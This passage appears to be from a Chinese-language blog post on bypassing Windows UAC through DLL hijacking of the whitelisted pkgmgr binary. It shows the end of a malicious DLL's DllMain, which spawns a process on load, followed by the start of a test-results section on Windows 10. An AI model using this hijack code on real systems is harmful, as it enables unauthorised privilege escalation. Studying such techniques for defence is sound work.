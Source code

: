 ```c++
            &si,               
            &pi                
        )) {
            printf("CreateProcessA failed (%d)", GetLastError());
            return 1;
        }

        WaitForSingleObject(pi.hProcess, INFINITE);

        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```



## 三、测试效果

测试环境：win10—18363

运行前：

![image-20240718180302464](/img/BypassUAC_白名单_pkgmgr_dll劫持/image-20240718180302464.png)
